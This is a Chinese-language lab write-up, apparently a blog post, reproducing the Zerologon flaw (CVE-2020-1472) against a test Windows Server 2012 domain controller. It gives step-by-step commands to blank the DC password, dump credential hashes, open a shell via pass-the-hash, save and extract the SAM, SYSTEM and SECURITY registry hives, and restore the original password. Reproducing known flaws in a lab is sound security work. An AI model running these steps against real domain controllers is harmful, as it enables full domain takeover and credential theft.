 CVE-2020-1472复现

# <a id="CVE20201472_0"/>CVE-2020-1472复现

## <a id="_1"/>简介

Netlogon使用的AES认证算法中的vi向量默认为0，导致攻击者可以绕过认证，同时其设置域控密码的远程接口也使用了该函数，导致可以将域控中保存在AD中的管理员password设置为空

## <a id="_4"/>复现环境

**DC：**<br/> os：windows 2012 server<br/> ip：192.168.106.137

**攻击机：**<br/> os：kali<br/> ip：192.168.106.129

## <a id="_13"/>影响版本

>  
 Windows Server 2008 R2 for x64-based Systems<br/> Service Pack 1Windows Server 2008 R2 for x64-based<br/> Systems Service Pack 1 (Server Core installation)<br/> Windows Server 2012<br/> Windows Server 2012 (Server Core installation)<br/> Windows Server 2012 R2<br/> Windows Server 2012 R2 (Server Core installation)<br/> Windows Server 2016<br/> Windows Server 2016 (Server Core installation)<br/> Windows Server 2019<br/> Windows Server 2019 (Server Core installation)<br/> Windows Server, version 1903 (Server Core installation)<br/> Windows Server, version 1909 (Server Core installation)<br/> Windows Server, version 2004 (Server Core installation) 


## <a id="_29"/>域环境搭建

关于域环境的搭建，可以参考这篇文章[Windows Server 2012搭建域环境](https://www.cnblogs.com/xfan1982/p/4120583.html)

搭建完毕后，可以使用`Netdom query fsmo`命令查看域环境信息<br/> <img src="https://img-blog.csdnimg.cn/20200921174818345.png#pic_center" alt=""/><br/> 用`nbtstat -n` 获取当前机器的NetBIOS名称<br/> <img src="https://img-blog.csdnimg.cn/20200921174840932.png#pic_center" alt=""/>

## <a id="_37"/>复现过程

### <a id="_38"/>漏洞验证

下载poc：https://github.com/SecuraBV/CVE-2020-1472<br/> 验证漏洞是否存在：<br/> `python3 zerologon_tester.py DC_NETBIOS_NAME DC_IP_ADDR`<br/> 如下图所示，漏洞存在<br/> <img src="https://img-blog.csdnimg.cn/20200921174909802.png#pic_center" alt=""/>

### <a id="_45"/>漏洞利用

下载exp：<br/> `git clone https://github.com/dirkjanm/CVE-2020-1472`

置空DC的密码<br/> `python3 cve-2020-1472-exploit.py DC_NETBIOS_NAME DC_IP_ADDR`<br/> <img src="https://img-blog.csdnimg.cn/20200921174939973.png#pic_center" alt=""/>

>  
 如果出现了下图中的错误：<br/> <img src="https://img-blog.csdnimg.cn/20200921175018741.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3NpbmF0XzM2ODUzOTcy,size_16,color_FFFFFF,t_70#pic_center" alt="在这里插入图片描述"/><br/> 可以参考图中的方式修复<br/> <img src="https://img-blog.csdnimg.cn/20200921175051837.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3NpbmF0XzM2ODUzOTcy,size_16,color_FFFFFF,t_70#pic_center" alt=""/> 


### <a id="HASH_57"/>获取HASH

使用impacket包中的secretsdum.py来获取相关的HASh<br/> `python3 secretsdump.py DOMAIN/DC_NETBIOS_NAME\$@DC_IP_ADDR -no-pass`<br/> <img src="https://img-blog.csdnimg.cn/20200921175116357.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3NpbmF0XzM2ODUzOTcy,size_16,color_FFFFFF,t_70#pic_center" alt=""/>

### <a id="shell_63"/>获取shell

获取HASH后，可以利用wmiexec.py登录，从而获取一个SHELL<br/> `python wmiexec.py -hashes &lt;HASH&gt; DOMAIN/DOMAIN_USER@DC_IP_ADDR`<br/> <img src="https://img-blog.csdnimg.cn/20200921175133425.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3NpbmF0XzM2ODUzOTcy,size_16,color_FFFFFF,t_70#pic_center" alt=""/>

### <a id="HASH_69"/>恢复原HASH

执行以下命令，获取SAM中原来的HASH

```
# SHELL 
reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save
get system.save
get sam.saveget security.save
del /f system.save
del /f sam.save
del /f security.save
exit

```

<img src="https://img-blog.csdnimg.cn/20200921175153469.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3NpbmF0XzM2ODUzOTcy,size_16,color_FFFFFF,t_70#pic_center" alt=""/><br/> 保存在kali中<br/> <img src="https://img-blog.csdnimg.cn/202009211752100.png#pic_center" alt=""/>

### <a id="HASH_86"/>解析HASH

执行如下命令，利用secretsdump.py解析保存在本地的nt hash<br/> `python3 secretsdump.py -sam sam.save -system system.save -security security.save LOCAL`<br/> <img src="https://img-blog.csdnimg.cn/20200921175231533.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3NpbmF0XzM2ODUzOTcy,size_16,color_FFFFFF,t_70#pic_center" alt=""/><br/> 需要保存的数据<br/> `a5d65e274a2db831ae4b246ec8fe51de`

### <a id="HASH_94"/>恢复HASH

恢复HASH的工具：<br/> git clone https://github.com/risksense/zerologon<br/> 执行命令：<br/> `python3 reinstall_original_pw.py DC_NETBIOS_NAME DC_IP_ADDR &lt;ORI_HASH&gt;`<br/> <img src="https://img-blog.csdnimg.cn/20200921175254625.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3NpbmF0XzM2ODUzOTcy,size_16,color_FFFFFF,t_70#pic_center" alt=""/>

### <a id="_102"/>检查是否恢复

再次执行命令<br/> `python3 secretsdump.py DOMAIN/DC_NETBIOS_NAME\$@DC_IP_ADDR -no-pass`<br/> <img src="https://img-blog.csdnimg.cn/20200921175311651.png#pic_center" alt=""/>

## <a id="_106"/>参考链接
1. [CVE-2020-1472 域内提权完整利用](https://mp.weixin.qq.com/s/RUkGMxM5GjFrEiKa8aH6JA)1. [CVE-2020-1472复现指北](https://my.oschina.net/Umbrel1a/blog/4589778)1. [Windows Server 2012搭建域环境](https://www.cnblogs.com/xfan1982/p/4120583.html)


参考文章地址:https://blog.csdn.net/sinat_36853972/article/details/108715304